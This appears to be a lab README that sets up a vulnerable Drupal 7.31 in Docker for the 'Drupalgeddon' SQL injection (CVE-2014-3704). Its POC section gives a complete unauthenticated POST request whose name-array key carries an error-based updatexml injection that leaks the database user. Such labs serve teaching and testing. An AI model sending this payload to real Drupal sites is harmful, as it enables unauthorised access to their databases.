 # Drupal < 7.32 "Drupalgeddon" SQL Injection Vulnerability (CVE-2014-3704)

[中文版本(Chinese version)](README.zh-cn.md)

Drupal is a free and open-source web content management framework written in PHP and distributed under the GNU General Public License.

The expandArguments function in the database abstraction API in Drupal core 7.x before 7.32 does not properly construct prepared statements, which allows remote attackers to conduct SQL injection attacks via an array containing crafted keys.

## Vulnerable Environment

Execute the following command to start a Drupal 7.31.

```
docker compose up -d
```

After the server is started, browse ``http://your-ip:8080`` to see the Drupal installation wizard, and use the default configuration to install it.

Note that the Mysql database name is ``drupal``, the database username and password is ``root``, and the address is ``mysql``:

![](1.png)

After the installation is complete, browse the home page.

![](2.png)

## POC

The SQL injection does not require authentication and can execute malicious SQL statements by sending the following request.

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

As can be seen, the SQL statement reports an error message with user data.

![](3.png)
